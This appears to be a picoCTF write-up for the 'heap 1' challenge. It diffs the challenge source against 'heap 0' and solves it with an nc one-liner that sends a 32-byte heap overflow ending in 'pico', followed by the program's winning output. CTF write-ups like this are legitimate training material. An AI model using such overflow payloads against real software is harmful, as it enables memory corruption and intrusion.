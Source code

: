 # heap 1 #
 
## Overview ##

100 points

Category: [Binary Exploitation](../)

Tags: `#binaryexploitation #heap`

## Description ##

Can you control your overflow?

## Approach ##

Binary and source are provided for this challenge.

Inspecting the `chall.c` source file, it looks to be a modified version of **[heap 0](../heap%200/heap%200.md)** challenge, so running a diff between the two to determine the changes :

    diff ../heap-0/chall.c chall.c
    16c16
    <     if (strcmp(safe_var, "bico") != 0) {
    ---
    >     if (!strcmp(safe_var, "pico")) {
    47c47
    <     printf("\nWelcome to heap0!\n");
    ---
    >     printf("\nWelcome to heap1!\n");
    88,99c88
    <   int rval = scanf("%d", &choice);
    <   if (rval == EOF){
    <       exit(0);
    <   }
    <         if (rval != 1) {
    <             //printf("Invalid input. Please enter a valid choice.\n");
    <             //fflush(stdout);
    <             // Clear input buffer
    <             //while (getchar() != '\n');
    <             //continue;
    <       exit(0);
    <         }
    ---
    >   if (scanf("%d", &choice) != 1) exit(0);

So now our challenge is to cause an overflow but construct the overflow such that the `safe_var` rewritten with known data, in this case it must be equal to `"pico"` as seen in the updated conditional statement above.

## Solution ##

A minor modification to our existing attack for **[heap 0](../heap%200/heap%200.md)** to increase the overflow to add the required `safe_var` contents in the correct position (offset is again 32-bytes as obtained from the addresses displayed by the challenge executable) :

    $ echo $(python3 -c 'print("2\n" + "A"*32 + "pico\n4\n")') | nc tethys.picoctf.net 64934

    Welcome to heap1!
    I put my data on the heap so it should be safe from any tampering.
    Since my data isn't on the stack I'll even let you write whatever info you want to the heap, I already took care of using malloc for you.

    Heap State:
    +-------------+----------------+
    [*] Address   ->   Heap Data   
    +-------------+----------------+
    [*]   0x556535d462b0  ->   pico
    +-------------+----------------+
    [*]   0x556535d462d0  ->   bico
    +-------------+----------------+

    1. Print Heap:      (print the current state of the heap)
    2. Write to buffer: (write to your own personal block of data on the heap)
    3. Print safe_var:  (I'll even let you look at my variable on the heap, I'm confident it can't be modified)
    4. Print Flag:      (Try to print the flag, good luck)
    5. Exit

    Enter your choice: Data for buffer: 
    1. Print Heap:      (print the current state of the heap)
    2. Write to buffer: (write to your own personal block of data on the heap)
    3. Print safe_var:  (I'll even let you look at my variable on the heap, I'm confident it can't be modified)
    4. Print Flag:      (Try to print the flag, good luck)
    5. Exit

    Enter your choice: 
    YOU WIN
    picoCTF{...........redacted.............}

Where the actual flag value has been redacted for the purposes of this write up.